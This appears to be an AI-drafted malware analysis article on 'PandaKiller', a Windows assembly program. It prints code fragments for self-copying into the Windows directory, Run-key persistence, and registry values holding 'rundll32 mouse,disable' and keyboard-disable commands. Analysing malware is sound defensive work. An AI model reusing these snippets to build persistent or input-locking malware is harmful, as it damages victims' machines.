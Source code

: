 
### **Analyzing the PandaKiller Malware: A Deep Dive into Assembly Code**

#### **Introduction**

Malware analysis is a crucial skill for cybersecurity professionals. In this article, we dissect the "PandaKiller" malware, a Windows-based threat written in assembly language. We will break down its functionalities, focusing on key snippets of code to understand its impact and behavior.

#### **Overview of PandaKiller**

PandaKiller is a malicious program designed to:

-   Self-replicate in the Windows directory.
-   Modify registry entries to persist on reboot.
-   Disable the keyboard and mouse.
-   Display a deceptive message to the user.

Let's analyze its core functionalities.

----------

### **1. Self-Replication in the Windows Directory**

The first step in PandaKiller's execution is copying itself to `%windir%\WinExec.exe`. The following code accomplishes this:

```assembly
push 00000000h
call GetModuleHandleA
push 260
push offset moi
push eax
call GetModuleFileNameA  ; Get the current executable path

push 260
push offset targ1
call GetWindowsDirectoryA  ; Get Windows directory path

push offset copie
push offset targ1
call lstrcat  ; Append "\WinExec.exe" to Windows directory path

push 00000000h
push offset targ1
push offset moi
call CopyFileA  ; Copy the malware to %windir%\WinExec.exe
```

#### **Analysis**

-   The malware retrieves its own file path using `GetModuleFileNameA`.
-   It appends the filename `WinExec.exe` to the Windows directory.
-   The `CopyFileA` API copies the executable to `%windir%\WinExec.exe`, ensuring persistence.

----------

### **2. Registry Modification for Persistence**

To ensure execution on startup, PandaKiller modifies the Windows registry. The malware creates a new registry entry under `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`:


```assembly
push offset l
push offset p
push 0
push 1F0000h + 1 + 2h
push 0
push 0
push 0
push offset CLE2
push 80000002h  ; HKEY_LOCAL_MACHINE
call RegCreateKeyExA

push 05h
push offset DONNEE2  ; "%windir%\WinExec.exe"
push 01h
push 0
push offset NOM2  ; "WinExec"
push p
call RegSetValueExA  ; Write the registry key
```

#### **Analysis**

-   `RegCreateKeyExA` opens the `Run` registry key.
-   `RegSetValueExA` creates a new entry named `WinExec`, pointing to the copied malware file.
-   This ensures that the malware executes at every system startup.

----------

### **3. Disabling the Mouse and Keyboard**

One of PandaKiller’s more destructive actions is disabling user input:


```assembly
push offset l
push offset p
push 0
push 1F0000h + 1 + 2h
push 0
push 0
push 0
push offset CLE2
push 80000002h  ; HKEY_LOCAL_MACHINE
call RegCreateKeyExA

push 05h
push offset DONNEE3  ; "rundll32 mouse,disable"
push 01h
push 0
push offset NOM3
push p
call RegSetValueExA  ; Disable mouse

push 05h
push offset DONNEE4  ; "rundll32 keyboard,disable"
push 01h
push 0
push offset NOM4
push p
call RegSetValueExA  ; Disable keyboard
```

#### **Analysis**

-   This code injects commands into the Windows registry to disable the mouse and keyboard using `rundll32`.
-   On next reboot, these settings will render the machine unusable.

----------

### **4. Displaying a Message to the User**

Finally, the malware presents a deceptive message:


```assembly
push 40h
push offset TITRE
push offset TEXTE
push 0
call MessageBoxA
```

#### **Analysis**

-   This triggers a Windows message box with the title `T.PK.3` and the text `"VOUS SOUHAITE UNE BONNE ANNEE !"`.
-   It serves as a distraction while the malware continues execution.

----------

### **Conclusion**

PandaKiller is a destructive malware with simple but effective techniques:

-   **Self-replication** for persistence.
-   **Registry modification** to ensure execution.
-   **User input lockdown** to make recovery difficult.
-   **Social engineering** through misleading messages.

Understanding its assembly code helps malware analysts recognize similar threats and develop mitigation strategies.

Would you like to see additional sections, such as **detection methods** or **countermeasures**? 🚀
